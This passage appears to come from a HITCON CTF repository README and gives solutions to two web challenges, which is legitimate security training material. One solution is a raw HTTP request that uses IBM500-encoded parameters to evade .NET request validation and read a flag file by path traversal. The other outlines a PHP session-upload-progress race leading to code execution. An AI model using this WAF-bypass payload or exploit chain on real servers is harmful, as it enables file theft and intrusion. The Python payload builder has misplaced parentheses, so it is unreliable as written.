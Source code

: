 #### Source Code

* [Default.aspx](hitcon-ctf-2019/buggy-net/Default.aspx)  

#### Solution

* Using .NET request validation to trigger the exception and bypass the filter
* Idea from [Soroush Dalili](https://twitter.com/irsdl)'s  [WAF Bypass Techniques - Using HTTP Standard and Web Servers' Behaviour](https://www.slideshare.net/SoroushDalili/waf-bypass-techniques-using-http-standard-and-web-servers-behaviour) in AppSec Europe 2018(p30~p34)  

```
GET / HTTP/1.1
Host: buggy
Content-Type: application/x-www-form-urlencoded; charset=ibm500
Content-Length: 61

%86%89%93%85%95%81%94%85=KKaKKa%C6%D3%C1%C7K%A3%A7%A3&x=L%A7n
```

```python
from urllib import quote

s = lambda x: quote(x.encode('ibm500'))
print '%s=%s&x=%s' % (s('filename'), s('../../FLAG.txt', s('<x>'))
```

#### Write Ups

* TBD


## **One Line PHP Challenge**
  
Difficulty: **★★★★**  
Solved: **3 / 1816**  
Tag:   **PHP**

#### Source Code

* [index.php](hitcon-ctf-2018/one-line-php-challenge/src/index.php)  

#### Solution

P.S. This is a default installation PHP7.2 + Apache on Ubuntu 18.04

1. Control partial session file content by `PHP_SESSION_UPLOAD_PROGRESS`
2. Bypass `session.upload_progress.cleanup = On` by `race condition` or `slow query`
3. Control the prefix to `@<?php` by chaining PHP wrappers

* [exp_for_php.py](hitcon-ctf-2018/one-line-php-challenge/exp_for_php.py)
* [Offical writeup for One Line PHP Challenge](http://blog.orange.tw/2018/10/hitcon-ctf-2018-one-line-php-challenge.html)  

#### Write Ups
